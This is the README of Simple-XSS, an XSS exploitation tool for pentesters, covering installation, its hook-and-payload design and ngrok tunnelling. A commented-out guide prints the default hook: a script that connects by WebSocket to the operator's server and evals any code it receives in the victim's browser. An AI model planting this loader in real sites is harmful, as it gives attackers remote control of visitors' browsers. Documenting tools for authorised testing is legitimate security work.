 # Simple-XSS

<p align="center">
  <img src="resources/images/logo.png"  alt="Simple-XSS logo"/>
</p>

<a href="https://github.com/CrazyProger1/Simple-XSS/releases/download/V0.2/Simple-XSS-Windows-x64.zip"><img alt="GitHub all releases" src="https://img.shields.io/github/downloads/CrazyProger1/Simple-XSS/total"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/blob/master/LICENSE"><img alt="GitHub" src="https://img.shields.io/github/license/CrazyProger1/Simple-XSS"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/releases/latest"><img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/CrazyProger1/Simple-XSS"></a>

Simple-XSS is a multi-platform cross-site scripting (XSS) vulnerability exploitation tool for pentesting.

Problems solved by Simple-XSS:

- [x] Easy creatable payloads & hooks
- [x] Support of several payload delivering protocols
- [x] Support of several tunneling services (to deliver payload even without white IP)

**Disclaimer:** This program is provided for educational and research purposes only.
The creator of this program does not condone or support any illegal or malicious activity,
and will not be held responsible for any such actions taken by others who may use this program.
By downloading or using this program, you acknowledge that you are solely responsible for any consequences
that may result from the use of this program.

## Vocabulary

**Hook** - snippet of JS code designed to be injected via XSS on the client side.

**Payload** - a program that will be launched remotely in the client’s browser.

## Usage

### GUI-Guide

[//]: # (> Use `--help` argument to get help.)

[//]: # (![commandline help]&#40;docs/help.png&#41;)

[//]: # ()

[//]: # (### GUI-Guide)

[//]: # ()

[//]: # (Firstly, choose the hook. [Default hook]&#40;hooks/default&#41; is the simplest hook, it is only suitable for forms without XSS)

[//]: # (protection:)

[//]: # ()

[//]: # (![step 1]&#40;docs/step_1.png&#41;)

[//]: # ()

[//]: # (Then, choose the payload. [Hello world payload]&#40;payloads/hello_world&#41; is an example payload, it just alerts "Hello,)

[//]: # (World!":)

[//]: # ()

[//]: # (![step 2]&#40;docs/step_2.png&#41;)

[//]: # ()

[//]: # (Now, lets set up tunneling. Tunneling is needed to make a local server public. You have 2 options:)

[//]: # ()

[//]: # (1&#41; use one of the suggested tunneling apps &#40;now it's only [ngrok]&#40;https://ngrok.com/&#41;&#41;)

[//]: # (2&#41; tunnel ports yourself and pass the public URL of the HTTP tunnel to the program)

[//]: # ()

[//]: # (![step 3]&#40;docs/step_3_1.png&#41;)

[//]: # ()

[//]: # (![step 3]&#40;docs/step_3_2.png&#41;)

[//]: # ()

[//]: # (Finally, you can run the process!)

[//]: # ()

[//]: # (![step 4]&#40;docs/step_4.png&#41;)

[//]: # ()

[//]: # (Now you can copy the hook and start hunting ;D)

[//]: # ()

[//]: # (![step 5]&#40;docs/step_5.png&#41;)

[//]: # ()

[//]: # (To demonstrate the possibilities, we can use site [xss-game.appspot.com]&#40;https://xss-game.appspot.com/&#41;.)

[//]: # (Enter the hook into search form:)

[//]: # ()

[//]: # (![step 6]&#40;docs/step_6.png&#41;)

[//]: # ()

[//]: # (Press "Search". As you can see, we have the alert dialog!)

[//]: # ()

[//]: # (![step 7]&#40;docs/step_7.png&#41;)

[//]: # ()

[//]: # (Also, we have "Hello, World!" in our console:)

[//]: # (![step 8]&#40;docs/step_8.png&#41;)

[//]: # ()

[//]: # (### Hook)

[//]: # ()

[//]: # (> _Hooks folder: [hooks]&#40;hooks&#41;_)

[//]: # ()

[//]: # (**Hook** is an HTML code snippet designed to be embedded in a vulnerable XSS form. It looks like:)

[//]: # ()

[//]: # (```html)

[//]: # ()

[//]: # (<script>c = new WebSocket&#40;'{{environment.public_url}}'&#41;;)

[//]: # (c.onmessage = &#40;e&#41; => eval&#40;e.data&#41;;</script>)

[//]: # (```)

[//]: # ()

[//]: # (**NOTE:** _As you can see here is a built-in variable: {{environment.public_url}}. You can read more about)

[//]: # (this below._)

[//]: # ()

[//]: # (This is a [default]&#40;hooks/default&#41; hook. When it's embedded in the vulnerable form, it downloads the JS)

[//]: # (code &#40;[payload]&#40;#payload&#41;&#41; via)

[//]: # (WebSockets)

[//]: # (protocol from the server and)

[//]: # (executes it using [eval]&#40;https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval&#41;.)

[//]: # ()

[//]: # (Hook has the following structure:)

[//]: # ()

[//]: # (```)

[//]: # (|)

[//]: # (+-- hook_folder)

[//]: # (    |)

[//]: # (    +-- hook.html)

[//]: # (    |)

[//]: # (    +-- package.toml)

[//]: # (```)

[//]: # ()

[//]: # (**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.)

[//]: # ()

[//]: # (**package.toml** - metadata file, contains data about hook such as name, description, author and version.)

[//]: # ()

[//]: # (### Payload)

[//]: # ()

[//]: # (> _Payloads folder: [payloads]&#40;payloads&#41;_)

[//]: # ()

[//]: # (**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed)

[//]: # (with [eval]&#40;https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval&#41;.)

[//]: # ()

[//]: # (Payload has the following structure:)

[//]: # ()

[//]: # (```)

[//]: # (|)

[//]: # (+-- payload_folder)

[//]: # (    |)

[//]: # (    +-- payload.js)

[//]: # (    |)

[//]: # (    +-- package.toml)

[//]: # (    |)

[//]: # (    +-- init.py)

[//]: # (```)

[//]: # ()

[//]: # (**payload.js** - main file, contains arbitrary JS code.)

[//]: # ()

[//]: # (**package.toml** - metadata file, contains data about payload such as name, description, author and version.)

[//]: # ()

[//]: # (**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload)

[//]: # (&#40;payload.js&#41; via WebSockets protocol.)

[//]: # ()

[//]: # (### Templating)

[//]: # ()

[//]: # (**Built-in objects** is an objects passed into hook & payload main files)

[//]: # (using [Jinja]&#40;https://jinja.palletsprojects.com/&#41;)

[//]: # (templating engine. It contains additional information that may be needed when loading a hook or payload.)

[//]: # ()

[//]: # (#### Environment)

[//]: # ()

[//]: # (- **public_url** - public address of WebSocket server)

[//]: # ()

[//]: # (#### Metadata)

[//]: # ()

[//]: # (**package** - hook or payload)

[//]: # ()

[//]: # (- **name** - name of package)

[//]: # (- **author** - package author)

[//]: # (- **version** - version of package)

[//]: # (- **description** - package description)

[//]: # ()

[//]: # (If you need to use some variable, just use such construction: {{object.variable}}.)

[//]: # (For example:)

[//]: # ()

[//]: # (```)

[//]: # (alert&#40;'{{metadata.name}} - V{{metadata.version}}'&#41;)

[//]: # (```)

[//]: # ()

[//]: # (The provided payload code snippet will display an alert dialog showcasing the name and version of the payload.)

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical

### WEB

### Command-Line

## Warning

In favor of ease of use and expanded capabilities, we had to sacrifice backward compatibility between versions 0.2 and
0.3. The features of the previous version are retained and expanded, but older versions of hook & payload will not work.

## Installation

**Note:** _make sure you have installed [Python 3.11](https://www.python.org/downloads/release/python-3115/)_

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install the requirements:

**For Window:**

```commandline
cd Simple-XSS
pip install -r requirements/windows.txt
```

**For Linux:**

```commandline
cd Simple-XSS
pip install -r  requirements/linux.txt
```

And finally you can launch it:

```commandline
python main.py
```

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
